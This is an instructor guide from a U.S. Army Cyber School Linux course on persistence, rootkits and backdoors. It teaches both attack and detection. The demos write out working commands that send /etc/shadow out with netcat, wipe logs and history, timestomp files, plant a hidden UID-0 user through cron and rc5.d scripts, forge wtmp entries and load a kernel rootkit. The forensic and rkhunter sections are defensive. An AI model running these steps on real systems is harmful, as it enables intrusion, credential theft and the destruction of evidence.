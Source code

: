:doctype: book
:stylesheet: ../cctc.css
image::https://git.cybbh.space/global-objects/resources/raw/master/images/cyber-branch-insignia-official.png[Cyber,width=128,float="right"]

U.S. Army Cyber School +
2017

:numbered!:
 
= Linux Section 5: Exploitation

{empty} +

== Skills and Objectives

{empty} +

.*SKILL 11: Discuss the reasons to establish permanent presence*
* 11.1 Define permanent presence
* 11.2 Describe the clean-up process associated with your activity
* 11.3 Identify indicators and symptoms of compromise
* 11.4 Develop a methodology for the enumeration of a compromised system

.*SKILL 12: Analyze different types of rootkits and backdoors*
* 12.1 Discuss and define the main types of backdoors
* 12.2 Discuss and define the main types of rootkits
* 12.3 Identify different backdoor persistence techniques
* 12.4 Describe backdoor communication methods
* 12.5 Describe methods to detect and mitigate rootkits
* 12.6 Demonstrate how rootkits can be used to provide false information to a user

.*SKILL 13: Explore Linux Exploitation tools*
* 13.1 Discuss shell code
* 13.2 Identify remote shell code execution
* 13.3 Define credentials
* 13.4 Perform credential cracking
* 13.5 Identify purposes for Metasploit
* 13.6 Identify common Metasploit modules
* 13.7 Define rainbow tables
* 13.8 Identify the purposes for custom malware
* 13.9 Identify zero configuration networking

{empty} +

== Practical Exercises

Each practical exercise is further detailed on Blackboard, to include scenarios, grading, and submission standards.

==== Activity:


{empty} +

== Faciliation:

==== Facilitation 11-13
=== *SKILL 11: Discuss the reasons to establish permanent presence*
==== 11.1 Define permanent presence

Permanent Presence or perisistence is any mechanism that allows an adversay to maintain access to target system(s) +

Some examples of persistence are scripts placed into the file system that startup at boot/reboot.  Some example file locations: +
.*init.d scripts / systemd service file*

* Discussed in 4.2

*application startup scripts (bashrc, etc)*

*modifying system binaries*

.*cron*
* cron runs as a daemon, and waits on temporal events to execute specified actions
* can run two types of jobs, system(root) and user
* entries controlled by the /etc/crontab config file
* crontab binary used to add new cronjobs to crontab file

.*DEMO: Format of crontab*
----
* * * * * user command
crontab -l          #list user cronjobs
----

.*at*
* reads a series of commands and executes them at a later time
* one-time run
* to persist, must replace itself in a new at command during each iteration

.*inetd/xinetd*
* known as the 'internet superserver'
* designed to eliminate the need for multiple idle daemons running in the background, instead centralizing the listening to the inetd (xinetd) +
daemon who then sends requests to the appropriate server binary +

.*DEMO: inetd conf file*
----
apt-get install xinetd                                                  #if not currently installed
less /etc/xinetd.conf                                                   #show the configuration file
less /etc/services                                                      #show configured services
----


==== 11.2 Describe the clean-up process associated with your activity
* A baseline upon connection is required to know what changes have occurred.

* DISCUSSION: Clean-up
** running processes
** network connections
** uploaded binaries removed
** logs created
*** which logs can be modified, which can't?
** account modifications
** file timestamps
*** which timestamps can be modified?
{empty} +

.*DEMO: Cover your tracks*
{empty} +

Explain to students that every move you make on the system generates some kind of forensic artifact that can be used to tie the attack back to you, the attacker. +
For this reason, we keep a detailed log of all activities from the time we arive on-box, to the second we break communication with the box. +

Let's first purge as many artifacts as we can from our system ..
----
#create new user to be used as bad actor, later on (create now, so no history of it):
useradd Joe -s /bin/bash -d /home/Joe -p password

#reset box:
#erase all .bash_history
for x in $(getent passwd | awk '{print $1}'); do echo "" > /home/$x/.bash_history 2>/dev/null; done
echo "" > /root/.bash_history

#erase all logs
i=$(find /var/log -maxdepth 1 -type f -exec echo {} \;)
for x in $i; do echo "" > $x 2>/dev/null; done

#timestomp all logs:
y=$(find /var/log/* -exec echo {} \;)
for x in $y; do touch $x 2>/dev/null; done

#timestomp all binaries
z=$(find /bin /sbin /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -exec echo {} \;)
for x in $z; do touch $x 2>/dev/null; done
----
{empty} +

Now, let's create some atrifacts on our system .. Best to have this setup before demo

----
#Creating artifacts:
#you will need 2 linux systems for this, both with floating IPs
#making sure you are a general user "Joe" without root privs, and with sudo rights

#open at least "2" terminals as user Joe

#type the following command in order (Terminal 1):
<as user: Joe>
id                                                                      #shows malicious user what groups he belongs to, and if has sudo rights
cat /etc/{passwd,shadow,hosts} 2>/dev/null > /tmp/.loot
which nc
/bin/nc {IP addy of waiting listener on other box} {random high port} < /tmp/.loot
CTRL+C
openssl passwd -1 -salt 1z2y3x4w PassWord1234
sudo vi /etc/shadow
sudo useradd -o -l r00t -u 0 -G sudo,shadow,crontab -d /tmp/.home -s /bin/bash -p gotcha
                                                                        #{-o: non-unique UID (allows us to be UID=0), -l: prevents lastlog and faillog entries 
                                                                        for user, -u: UID, -G: adds user to additional groups, -d: sets user home directory, 
                                                                        -s: sets user shell, -p: sets user password}
su r00t
password
nc -lp 12345 > /tmp/.loot/.script.sh
vi /tmp/.loot/.script.sh
chown r00t:r00t /tmp/.loot/.script.sh
chattr +i /tmp/.loot/.script.sh
#the script below sets a few variables, but essentially assigns both a directory from $(cat list), and a random high port from $C to a python web server

"script.sh":

    #!/bin/bash
    A=$(ps -elf | grep -v grep | grep Simple | awk '{print $4}')
    B=$(netstat -anltup | grep -o $A)
    C=$(od -A n -t d -N 2 /dev/urandom | tr -d ' ')
    for x in $(cat list); do if [[ $A == $B ]]; then
        kill -9 $B; 
        pushd $x; python -m SimpleHTTPServer $C; popd; 
        sleep 600;
    done

<as user: r00t>
chown r00t:r00t /etc/{passwd,shadow}
chattr +i /etc/{passwd,shadow}
su root
PassWord1234

<as root>
cd /root
ls
find ./ -maxdepth 1 -exec zip -r /tmp/.loot/.2.zip {} 2>/dev/null \;
ls -hs /tmp/.loot
/bin/nc {IP addy of waiting listener on other box} {random high port} < /tmp/.loot/.2.zip
exit
exit
exit

#On terminal: 2
nc -lp 54321 > /usr/bin/list                                            #on remote linux box, serve a "list" of directories, as a text doc: list, to netcat listener on port 54321
chown r00t:r00t /usr/bin/list
PATH=$PATH:/usr/bin/list
chattr +i /usr/bin/list
chattr +i $PATH

echo "SHELL=/bin/bash" >> /var/spool/cron/crontab/r00t
echo "PATH=$PATH" >> /var/spool/cron/crontab/r00t
echo "0/5 * * * * /tmp/.loot/.script.sh" >> /var/spool/cron/crontab/r00t

#enter following script: "foothold.sh" into default RC "run-control level" as a START script
head /etc/inittab                                                       #ID the default run-level of this system
vi /etc/.foothold.sh

.foothold.sh contents:

    #!/bin/bash
    A=$(getent passwd | grep -o r00t)
    B=$(useradd -o -l r00t -u 0 -G sudo,shadow,crontab -d /tmp/.home -s /bin/bash -p gotcha)
    [[ $A ]] || $B
    C=$(crontab -u r00t -l)
    D=$(echo "SHELL=/bin/bash" >> /var/spool/cron/crontab/r00t)
    E=$(echo "PATH=$PATH" >> /var/spool/cron/crontab/r00t)
    F=$(echo "0/5 * * * * /tmp/.loot/.script.sh" >> /var/spool/cron/crontab/r00t)
    G=$($D; $E; $F)
    [[ $C ]] || $G 

ln -s /etc/.foothold.sh /etc/rc5.d/S013874
chown r00t:r00t /etc/.foothold.sh
chattr +i /etc/.foothold.sh
chattr +i /etc/rc5.d/S013874
    
    
kill -9 $$
----

OK, we have generated plenty are artifacts to be found on the system ..
 
----
#most important thing here is to remember that typing "exit" exits our shell calmly, and commits commands entered into the terminal, 
currently residing in memory, to the user's history.

on Terminal: 1, which exfil'd sensitive data using nc, type "exit" 3x, so our command history is saved to all 3 users history files.
on Terminal: 2, which pulled in "list", created a cronjob, and a persistence script, foothold.sh, type: "kill -9 $$"; this will kill 
our session without comiting to the history file.
----
{empty} +

Now lets logon as "root" and see if we can figure out just what happened on this system .. +
1st thing we notice: "root's" password is changed.
Just for instructional purposes login with root's new password: PassWord1234 (in this case we would normaly boot into recovery mode)

----
#1st we'll check our own history:
tail -20 ~/.bash_history

#hmm, seems we only see the history we just created .. this is due to the "kill -9 $$" command entered on Terminal 2.
#let's check the user's history:
#1st we'll need a place to start ...
find /home/* -atime -1 -exec echo {} \;                                 #this will show us non-root user files/dirs accesed in last 24 hrs(1 day)

#now that we know which users last accessed the system, we can begin to dig .. user: Joe was only files affected in /home dir

tail -20 /home/Joe/.bash_history
#hmm, some interesting artifacts indeed .. nc, vi, openssl, passwd, shadow, r00t, su, etc
#this bread-crumbs us to the /etc/{passwd,shadow} files, so we look at those next ..
cat /etc/{passwd,shadow} | grep "Joe\|r00t\|root"

#right off the back we see similiar salts and passwords; we also see that user: r00t is rockin UID=0
#let's look more into this user: r00t's history:
tail -20 /home/r00t/.bash_history
Error: File does not exist

#ok, the plot thinkens .. another look at r00t's passwd entry reveals an odd home directory:  /tmp/.home
#alternatively, you could just run the following command to verify if a user's home directory exists or not:
pwkc /etc/passwd | grep "r00t\|Joe"
tail -20 /tmp/.home/.bash_history
#hmm, nothing there

#let's dig deeper into the /tmp directroy
ls -alr /tmp

#ok, some interesting artifacts containing password and DNS data
#notice we still know nothing about what Joe was doing as user: root .. this is because he killed his shell; no history .. 
let's see which binaries were last accessed ..
find /bin /sbin /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -maxdepth 1 -atime -1 -exec echo {} \;
#ok we can see that nc, ls, which, passwd, openssl, etc. binaries were accessed .. this help's us build a picture of what happened here ..

# you might be tempted to just charge in and cat all the logs, but don't ..
#couple ways we can analyze these logs:

Method 1:
find /var/log/* -atime -1 -exec echo {} \;                              #unfortunately, because logs are always being generated, this might not help much

Method 2:
ls -latr /var/log                                                        #this will place the log files in timestamp order assending; last log was last accessed:


#let's look into the last couple log files that were accesed/modified, or changed
tail -20 /var/log/auth.log                                              #this log will only show us authorization or privesc attempts
                                                                        here we see that user Joe switched to user r00t, then user r00t switched to root
                                                                                
tail -20 /var/log/syslog                                                #ok, seems there was a cronjob running from r00t, let's investigate this further

crontab -u r00t -l                                                      #lists contents of r00t's crontab; we see the cronjob that runs a script in /tmp/.loot/.script.sh
cat /tmp/.loot/.script.sh                                               #ok, so looks like Joe is serving up the contents of $(cat list) as r00t every five minutes
                                                                        via python web server on random high ports.
                                                                                
#let's investigate this further ..
netstat -atulpn | grep 9999                                             #ok, we can see the connection ok, but we still cannot tell which content is being served.

#using "lsof" we can list open file(s) and narrow down the search via the PID:
pid=$(ps -elf | grep -v grep | grep -i python | awk '{print $4}')
dir=$(lsof | grep $pid | grep " cwd ")                                  #in lsof output the entry with "cwd" or "current working directory" specifies what file is open.

#alternatively, we could deduce that since the file $(cat list) is NOT in the directory that "script.sh" runs from, that it is resident in the $PATH
echo $PATH | tr ':' '\n' | sort
/bin
/sbin
/usr/bin
/usr/bin/list                                                           # /usr/bin/list !
/usr/local/bin
/usr/local/sbin
/usr/sbin

cat /usr/bin/list                                                       #now we can see exactly what content is being served via python web-server.. or can we?
Error: permission denied
ls -al /usr/bin/list
-rwxrwxr-x 1 r00t r00t 21:39:12 4 /usr/bin/list                         #even root doesn't have permissions to read the contents of this file
lsattr /usr/bin/list                                                    # a quick look at the file attributes reveals the file is immutable, so we can't delete it either.

----

Just with those history files and logs alone, we were able to paint a picture of what exactly user Joe was attempting on the system, and what data was exfil'd.
{empty} +


There are additional artifacts/indicators that we missed, and that logs, and or history could easily miss .. thankfully the "find" command to the rescue again!
----
#to find files whos attributes have changed, we can try this:
lsattr -R / 2>/dev/null | grep -- "-i-" 2>/dev/null                     #return every file (absolute path) in the system with "immutable" attribute set.

# we can find files that have been accessed, modified, or changed:

for x in {r00t,Joe}; do
    find / -user "$x" -atime -1 -exec echo {} 2>/dev/null \; ;
done                                                                    #finds all files, etc owned by users: r00t and/or Joe which have been accessed in last 24 hrs.

# alternatively ..

(find / ! -type l ! -type p -atime -1 -exec ls -al {} 2>/dev/null \; | awk '{print $3}') |  sort | uniq -c | sort -nr 2>/dev/null
                                                                        #this command returns the user(s) who accessed the most files, sockets, and dirs in the last 24 hrs
                                                                        takes a bit to finish running, as it is looking at entire system.
----
{empty} +

Now let's erase those tracks, to make it much more difficult to detect our actions .. we'll keep this next part confined to the logs +
since we already covered how to detele/timestomp history, logs, and binaries ..

----
#let's look at /var/log/auth.log
ls -latr /var/log | grep auth.log                                        #shows us the last timestamp for this file
tail -4 /var/log/auth.log                                               #shows us the timestamps for the last entries of the auth.log file

#there seem to be some differences in the two .. the timestamp should be exactly the same as the last log entry in the file ..
----

----
EXAMPLE > 

    ls -latr /var/log
    ..
    -rw-r-----  1 root              adm           506 May 14 13:07 user.log
    -rw-rw-r--  1 root              utmp        11520 May 14 18:53 wtmp
    -rw-r--r--  1 root              root        81110 May 14 19:07 Xorg.0.log
    -rw-r-----  1 root              adm          8022 May 14 20:45 messages
    -rw-r-----  1 root              adm          7736 May 14 20:45 kern.log
    -rw-r-----  1 root              adm         36454 May 14 21:45 dmesg
    -rw-r-----  1 root              adm         35581 May 14 21:39 auth.log
    -rw-r-----  1 root              adm         36454 May 14 21:42 syslog
    -rw-r-----  1 root              adm         51608 May 14 21:42 daemon.log

    tail -3 /var/log/kern.log
    May 14 20:43:42 deb.kernel [188502.697781] normal operations[8048000+1000]
    May 14 20:45:01 deb.kernel [188582.011067] application [30709]: segfault at 42424242 ip 42424242 sp bffff4d0 error 4
    May 14 20:45:47 deb.kernel [188628.234887] application [30714]: segfault at 4242 ip 00004242 sp bffff4d0 error 4 in application [8048000+1000]
    
< EXAMPLE
----

#in the example above we want to remove the BoF entries from the log and adjust the log file's timestamp to reflect that of the last legit entry: normal ops

----
stat /var/log/kern.log                                                  #gives us all the MAC timestamps for the file
2017-05-14 21:45:47.443804132 -0400
2017-05-14 21:45:47.447804174 -0400
2017-05-14 21:45:47.079842783 -0400
----

#in order to change the timestamps we need to use the touch -t command..

----
touch -t 201705142143.42 /var/log/kern.log
stat /var/log/kern.log                                                  #gives us all the MAC timestamps for the file
2017-05-14 21:43:42.443804132 -0400
2017-05-14 21:43:42.447804174 -0400
2017-05-14 21:48:10.079842783 -0400                                     #we cannot change the "change" timestamp, as it is updated with current time, 
                                                                        when we ran touch -t
----
Or, we can simply clear the kernel ring buffer "dmesg.log" like this:

----
dmesg --clear dmesg
----

That's all well and good, but what about binary log files? How do we edit those? +

Recall that `/var/log/wtmp` was also edited ..

----
file /var/log/wtmp                                                      #shows this file is binary; not ASCII
cp /var/log/wtmp .x                                                     #cp orig to working copy
uuencode -m .x x_wtmp > y_wtmp                                          #coverts binary file: ".x" to Base64 (if you wanted to transfer discretely for editing off-box)

uudecode y_wtmp                                                         #converts Base64 to HEX so we can edit it
who .x                                                                  #show contents of who logged in and when; we need to erase evidence of "Joe"
----

image::../../resources/images/linux_12_7.png[ttys,height="450",width="350",float="left"]

----
hexeditor .x                                                            #edit HEX bytes to remove evidence of "Joe", and save it
----
note below, the placement of the HEX bytes representing *Joe's* Login info: *3A 30 00 00  4A 6F 65 00* +

image::../../resources/images/linux_12_8.png[Joe,float="left"]

{empty} +

note below, the placement of the HEX bytes representing *root's* Login info: *3A 30 00 00  72 6F 6F 74* +

image::../../resources/images/linux_12_9.png[root,float="left"]

{empty} +

We can use any online converter to verify these findings .. +

image::../../resources/images/linux_12_10.png[root,height="300",width="250",float="left"]

{empty} +

Now it's as easy as modifying the bytes to look like another user was logged in .. +
we convert "lucy" to HEX to get: 3A 30 00 00 *6C 75 63 79*, and we simply change "Joe" to "lucy"

image::../../resources/images/linux_12_11.png[root,float="left"]

{empty} +

Here is the final output, after saving the altered `/var/log/wtmp` file:

image::../../resources/images/linux_12_12.png[ttys,height="450",width="350",float="left"]

Now when the admin looks in the `/var/log/wtmp` file .. *"lucy" has some splainin to do :)* +

Using this same tactic, we can just as easily alter the timestamps of the binary files as well as ASCII files. +

{empty} +

==== 11.3 Identify indicators and symptoms of compromise
* DISCUSSION: Possible indicators of compromise
** Irregular processes running on the system
** Unusual network connections
** Gaps in log files
** Unauthorized user accounts
** Modified system binaries

==== 11.4 Develop a methodology for the enumeration of a compromised system
* Develop situational awareness on the compromised system
* Look at each of the areas of situational awareness on the system for suspicious indicators
** Processes
** Network Connections
** File System
** Startup
** Logs/Auditing
** Accounts


=== *SKILL 12: Analyze different types of rootkits and backdoors*
==== 12.1 Discuss and define the main types of backdoors
* According to NIST: A backdoor is an undocumented way to gaining access to a computer system<<1>>
* Would be officially classified as a Remote Access Tool (RAT) depending on package configuration (could be a compromise of legitimate software rather than a separate binary)

.*DISCUSSION: Bind vs reverse*
* Bind shell:
** The RAT on the victim machine opens up a listener and waits for an incoming communication.
** Listener can be bound to a specific port, or it can utilize an interfaces promiscuous mode +
or a raw_socket to listen for a specific pattern on any port (requires elevated privileges) +
*laymans terms:* attacker connects from their system to the shell residing on the victim's system, +
via a port on the nat/firewall which has been binded to the victims server; in this case, a netcat server. +
{empty} +

image::../../resources/images/linux_5_1.png[bind,height="250",width="450",float="left"]

{empty} +

* Reverse shell:
** The RAT is preconfigured to call back to a specific location
** Location can doesn't have to be just an IP and port, could be something like an FQDN or a local broadcast message +
*laymans terms:* victim's shell connects to a listening service, in this case netcat, on the attacker's system. +
{empty} +

image::../../resources/images/linux_5_2.png[reverse,height="250",width="450",float="left"]

{empty} +

==== 12.2 Discuss and define the main types of rootkits
.*DISCUSSION: Kernel vs userspace*
* User-mode rootkit:
** Restricted to privileges of user space in which it is executed.
** Limited in its capacity to hide things from the user, can not hide things from the kernel
** An example would be replacing the ps binary with a script that uses 'grep -v' to remove entries from ps that it wants to hide from the user
* Kernel-mode rootkit:
** Operates in Ring0 space
** Has full access to the entire system memory
** Can intercept system calls to truly hide programs, network connections, and files from both the kernel and the user.
** Often installed as a device driver or a replaced system binary
{empty} +

.*DEMO: Userspace Rootkit*
{empty} +

setup the environment using an executable similar to the following: +
this executable will replace `/usr/bin/subo` binary later on.

----
#include <stdio.h>

char *secret = "SomeUnGuessablePassword";

int authorization()
{
        char password[30];
        printf("[sudo] password:  ");
        gets(password);
        if (!strcmp(password,secret))
                return 1;
        else
                return 0;
}
int main()
{
        if (authorization())
        {
                printf("Command Executed! \n");
        }
        else
        {
                printf("Sorry, try again. \n");
        }
                return 0;
}
----

as root:

----
cp /usr/bin/sudo /root/sudo.bak                                         #this backs up a copy of the sudo binary
cp /path/to/executable /usr/bin/sudo                                    #this copies our executable over the sudo binary
----

create a new user and add them to the "sudo" group: +

----
useradd Dan -G sudo -s /bin/bash
----

with the executable above compiled, demo the following: +

image::../../resources/images/linux_12_1.png[netstat,height="300",width="750",float="left"]

note that the command: `netstat -p` cannot be run without root privs +
note to students the groups user: Dan belogs to "sudo" +
{empty} +

now we are going to run a command to detect userspace rootkit activity: +
as root, demo the following:

----
apt-get install -y rkhunter

rkhunter -c | more
 #or
rkhunter -c
 #then 
cat /var/log/rkhunter.log | grep -i warning
----

image::../../resources/images/linux_12_2.png[rkhunter]

image::../../resources/images/linux_12_3.png[rkhunter2]

note the warning for file: /usr/bin/sudo 
{empty} +

.*DEMO: Kernelspace Rootkit*
{empty} +

setup the environment using a "loadable kernel module": +
bofore you demo this, cat the output of both the `ps -elf` and `netstat -tualpn` commands to an ASCII file: +

----
ps -elf > /root/proc.txt && netstat -taulpn >> /root/proc.txt
----

download and compile the kernel module before required for demonstration: +
note: only works with: kernels 2.6.x/3.x/4.x +

----
mkdir /rootkit/ && cd /rootkit
git clone https://github.com/Dan-P0ul1n/0010100010.git                  #md5 hashes are included in the README
cd /rootkit/0010100010
make

        ***  IMPORTANT! ***
        #make sure you have already copied the process and connection output, as stated above
        before running the next command.
        
insmod r00tk1t.ko                                                       #injects hidden kernel module .. must run as root
----

This part, you'll demo to students: +

Key Commands: +

----
kill -60 $PID                                                           #hides/unhides the r00tk1t from lsmod
kill -31 $PID                                                           #hides/unhides PID from command output
kill -64 $PID                                                           #gives average user root shell
mv /file /hidemefile                                                    #prepending "hideme" to files hides from output and useage
----

----
ls /rootkit/0010100010                                                  #show them what you are looking for .. files with "r00tk1t" in them
lsmod | grep -i r00tk1t                                                 #module is hidden .. no output
ps -elf | grep -i r00tk1t                                               #module is hidden .. no output

ps -elf | grep -v grep | grep sshd                                      #ID SSH service is running; PID
netstat -atulpn | grep -i :22                                           #shows SSH running, and PID

i=$(ps -elf | grep -v grep | grep sshd | awk '{print $4}')              #sets $i == PID for ssh daemon
kill -31 $i                                                             #r00tk1t hides the "sshd" process from output via it's PID

#confirm this:
ps -elf | grep -v grep | grep sshd                                      #we can no longer see the process sshd
netstat -atlpn | grep -i :22                                            #even though we see it IS running, the process and PID are masked from output
netstat -atlp | grep -i ssh                                             #even though we see it IS running, the process and PID are masked from output
cd /proc/$i                                                             #even though we cannot see the output in ps command, it still exists in /proc

#there are couple ways we can be certain we are in the right place ..

#three files which accompany most binary processes:  "comm", "cmdline", and "exe"

cat /proc/$i/comm
sshd

cat /proc/$i/cmdline
/usr/sbin/sshd

md5sum /proc/$i/exe
34f1b693ca545bb354dab7a525fdfbfb  ./exe
md5sum /usr/sbin/sshd
34f1b693ca545bb354dab7a525fdfbfb  /usr/sbin/sshd                        #perfect match!

#additionally we can see the socket associated with the sshd process:

cat /proc/$i/net/tcp                                                    #even though the r00tk1t has masked the PID from command output, we can still 
                                                                        see the PID here
cat /proc/net/tcp                                                       #  .. or here, alternatively
ls -al /proc/$i/fd                                                      #here is the file creating our socket (ID via PID from above output)
----                  

This is how you can read the /proc/net/tcp file: +

image::../../resources/images/linux_12_6.png[proc_net,float="left"]
{empty} +

Ask students: feeling pretty confident? +

image::../../resources/images/linux_12_4.png[r00tk1t,height="200",width="200",float="left"]
{empty} +

Now we really complicate things .. +

----
find /bin -maxdepth 1 -type f -name "netstat"  #finds the netstat binary
/bin/netstat

mv /bin/netstat /bin/hidemenetstat                                      #this hides the binary (prepends "hideme" to filename), and now we can no longer 
                                                                        run netstat commands ..
netstat -atulpn
bash: netstat: command not found

#thankfully we can still look to make sure "ssh" is running by grepping for the ssh-agent:
ps -elf | grep -v grep | grep -i ssh

find /bin -maxdepth 1 -type f -name "ssh-agent"                         #here we can still see the "ssh-agent" binary ..
/usr/bin/ssh-agent

mv /usr/bin/ssh-agent /usr/bin/hidemessh-agent                          #hides "ssh-agent" binary from all command output (happening in memory with the system call)
find /bin -maxdepth 1 -type f -name "ssh-agent"                         #looks for and confirms binary cannot be found ..
bash: ssh-agent: command not found

ps -elf | grep -v grep | grep -i ssh                                    #i still see the ssh-agent service :)

find /bin -maxdepth 1 -type f -name "ps"                                #here we can still see the "ps" binary ..
/bin/ps

mv /bin/ps /bin/hidemeps                                                # $#!@ just got real!
ps -elf | grep -v grep | grep -i ssh                                    #confirms "ps" bianry is hidden from command output ..
bash: ps: command not found                                             

#you could literally just run the following command, and hand someone a "bad day":
for x in {ps,netstat,lsof,top,lsmod,ls,df}; do mv /bin/$x /bin/hideme$x; done
----

image::../../resources/images/linux_12_5.png[battleship,height="200",width="350",float="left"]
{empty} +

This is a good time to stress the importance of baselining ones system to the students.


to remove the kernel module (once it's visible again): +

----
kill -60 $i                     #makes kernel module visible again
lsmod | grep -i r00tk1t         #verifies the kernel module is visible and ready for removal

rmmod r00tk1t                   #removes the kernel module

        *** verify it's gone ***
        
lsmod | grep -i r00tk1t         #verifies the kernel module was removed
netstat -tlp                    #verifies binaries have reverted
----
{empty} +
{empty} +


Now, if you had a decent knowledge of assembly, how to use gdb, and a baseline of the original syscall table, +
you could track down the syscalls in memory .. and compare the baselined ones against the ones currently residing in memory +
resulting in the binaries that have been intercepted by the kernel r00tk1t.

.*DEMO: View syscall files*
----
cat /usr/include/syscall.h | more                                       #this file location can be different
cat /usr/include/unistd.h | more                                        #function numbers for syscalls may also be in this file
cat /boot/system.map* | more                                            #this could be a different name, contains memory locations
----

http://www.digilife.be/quickreferences/qrc/linux%20system%20call%20quick%20reference.pdf


==== 12.3 Identify different backdoor persistence techniques *(see rootkits demo above)*
* DISCUSSION: How to persist
** startup scripts: rc#.d scripts or *.service files                    
** binary replacement - overwrite legit binary
** cronjob
** inetd

==== 12.4 Describe backdoor communication methods
.*Communication Channels*
* Overt:
** Typical communication methods (sockets)
** No attempt to blend with other traffic
* Covert:
** RAT utilizes stealth in an attempt to blend in with legitimate traffic
** Can pose as actual http/ssl traffic using port 80/443 for example
** Also can try to hide messages within protocols not typically utilized for message transport, ie ICMP, DNS
** Can include using timing channels to send coded messages based on the time between signals as opposed to the signal itself (ie. ping, wait 3 seconds, ping)

==== 12.5 Describe methods to detect and mitigate rootkits *(see rootkits demo above)*
* DISCUSSION: vetting for malware
** Look at running processes
** Upload known good tools - check hashes of local tools
** Look for analgous network traffic/listening ports
** compare /proc against shown processes
** check hashes of system binaries in virustotal

==== 12.6 Demonstrate how rootkits can be used to provide false information to a user *(see rootkits demo above)*
.*DISCUSSION: How can a root kit intercept system calls*
* Syscall table
** All kernel system calls are defined in a table which indexes the syscall code to a memory location
** system calls function numbers are typically contained in the syscall.h or unistd.h files
** The default memory locations for system calls is typically contained in the /boot/system.map file (system.map name may include an architecture)

* Loadable Kernel Modules (LKM):
** Contain code that extends the running kernel without the need to recompile
** Often used to include device drivers and additional system calls
** execute in kernel space
** Often used by rootkits to change syscall function pointers to their own wrapper function which hides information from the user


=== *SKILL 13: Explore Linux Exploitation tools*
